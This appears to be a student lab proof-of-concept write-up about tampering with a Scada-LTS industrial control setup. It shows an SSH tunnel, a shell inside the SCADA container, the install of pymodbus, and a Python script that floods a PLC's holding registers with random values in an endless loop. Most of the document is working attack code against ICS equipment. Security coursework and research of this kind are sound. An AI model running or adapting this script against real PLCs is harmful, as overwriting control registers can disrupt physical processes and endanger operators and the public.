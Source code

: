 # Change modbus registers Proof of concept vulnerability
Connect to the server.
```
ssh -D 1080 mcsestudent@145.52.126.50
```
Enter the Scada-LTS container.
```sh
sudo docker exec -it scadalts /bin/bash
```

Install pip and [pymodbus](https://pypi.org/project/pymodbus/)
```sh
apt update && apt install python3-pip -y
pip install pymodbus
```

Run the code. There is no `nano` or `vim` but we can use `echo` to write to a file.
```py
import random
from pymodbus.client import ModbusTcpClient

PLC_IP = "plc-zone1" # Replace with your PLC or Modbus server IP
REGISTER_START = 1000  # First holding register
NUM_REGISTERS = 16  # 32 bytes = 16 registers (each register = 2 bytes)

client = ModbusTcpClient(PLC_IP)

try:
    while True:
        # Generate 16 random values (each between 0 and 65535)
        values = [random.randint(0, 65535) for _ in range(NUM_REGISTERS)]

        # Write multiple registers at once
        response = client.write_registers(REGISTER_START, values)
        
        print(f"Overschreven registers {REGISTER_START} - {REGISTER_START + NUM_REGISTERS - 1} met waarden {values}")

except KeyboardInterrupt:
    print("Test gestopt.")
finally:
    client.close()
```
```sh
python3 test.py
```

The registers should now star being overwritten with random data.

![](img/random_modbus.png)

![](img/scada_poc1.jpg)

![](img/scada_poc2.jpg)
